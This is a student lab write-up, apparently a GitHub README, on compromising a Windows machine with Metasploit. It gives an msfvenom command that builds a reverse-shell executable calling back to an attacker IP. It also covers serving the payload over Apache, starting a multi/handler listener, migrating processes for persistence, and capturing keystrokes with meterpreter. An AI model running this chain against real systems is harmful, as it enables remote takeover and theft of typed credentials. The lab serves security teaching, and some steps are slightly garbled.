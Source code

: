 ## Register number : 212222110054
## Name : Vishnupriya R

# Compromising-windows-using-Metasploit

## Metasploit
Compromising windows using Metasploit

## AIM:
To Compromise windows using Metasploit .

## DESIGN STEPS:
Step 1:
Install kali linux either in partition or virtual box or in live mode

Step 2:
Investigate on the various categories of tools as follows:

Step 3:
Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e3b4e8ad-0744-41da-bf0e-00af2819b316)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e5f93487-fe4d-4ca2-ae87-40528759b8ca)


copy the fun.exe into the apache /var/www/html folder

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a7061eec-78cb-4924-8bfd-750819217ae4)

Start apache server sudo systemctl apache2 start

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/94f19b88-677c-4e52-9f3e-9c0692c1b517)

Check the status of apache2

### OUTPUT:
![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/b0acfb58-3df4-4054-94b9-cbee552a7016)

Invoke msfconsole:

### OUTPUT:
msfconsole

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/44262e98-e486-48b5-ac0b-a46ce64aea0e)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/df212ae7-e067-4020-8c25-1c0aa43b59e7)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/8e273f1c-0127-4bf3-84fb-fb78e9c6ac90)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/70a3b4d8-0dcc-4370-9fcd-2c3677d0895e)

Bypass any warning boxes, double-click the file, and allow it to run. 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e8a7eea1-3cc6-4ecb-958f-fde637a7fae8)

On kali give the command exploit 

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/65425abf-0758-4378-8135-3ff71f48e582)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/5d0014c5-4c05-4600-9961-06a15007e0f3)


The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/f67156a4-303a-46e8-988b-f6cfedf969a8)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/e6b6fbc1-4c4c-4e14-a3d8-10249cff2969)

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/a33bbc37-38ac-45b3-b0a3-fd26b82ed9ab)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/Yamunaasri/Compromising-windows-using-Metasploit/assets/115707860/4f311cb3-83cd-4564-a90b-590e1397a284)

## RESULT:
The Metasploit framework is used to compromise windows and is examined successfully.
